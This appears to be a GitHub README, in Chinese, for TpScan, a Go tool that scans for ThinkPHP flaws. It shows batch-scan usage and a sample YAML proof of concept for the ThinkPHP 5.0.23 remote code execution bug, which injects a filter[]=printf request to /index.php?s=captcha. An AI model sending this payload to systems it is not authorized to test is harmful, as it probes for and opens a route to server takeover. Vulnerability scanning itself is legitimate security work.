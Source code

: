 ![TpScan](https://socialify.git.ci/captain686/TpScan/image?font=Raleway&forks=1&issues=1&language=1&name=1&owner=1&pattern=Circuit%20Board&stargazers=1&theme=Light)

## ☃️What

使用`golang`编写的ThinkPHP扫描器，`POC`采用`ymal`文件加载

## 🤪How

- 单个`URL`测试

```bash
./TpScan.exe -u http://node4.buuoj.cn:26433/
```

- 批量`URL`测试

```bash
./TpScan.exe -f test.txt
```

## 🤑About

- `Ymal`文件格式

  ```yaml
  name: 5.0.23-Rce
  rules:
    r1:
      request:
        method: POST
        headers:
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        path: /index.php?s=captcha
        body: _method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]=randomStr
      expression:
  #      result: and
  #      response_status: 404
        inResponse: |
          randomStr
  
    r2:
      request:
  #支持POST和GET    
        method: POST
        headers:
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        path: _method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]=randomStr
        FollowRedirects: true
  #允许302跳转，默认为true
      expression:
  # r2验证结果为 response_status == 404 && inResponse(randomStr)
  #      result: and
  #      result: or
  #      response_status: 404
        inResponse: |
          randomStr
  #randomStr为占位符，会被自动替换为10位随机字符
  
  expression:
    r1 || r2
  #  r1 && r2
  #支持逻辑运算
  
  
  # 信息部分
  detail:
    author: Captain686
    links:
      - https://github.com/captain686
  ```
  
  
  
  在`Xray`的`poc`格式基础上进行部分修改
  
  `Poc`文件存放在`User_Exploit`目录下

## 😎ToDo

- [ ] 后续更新`Poc`文件
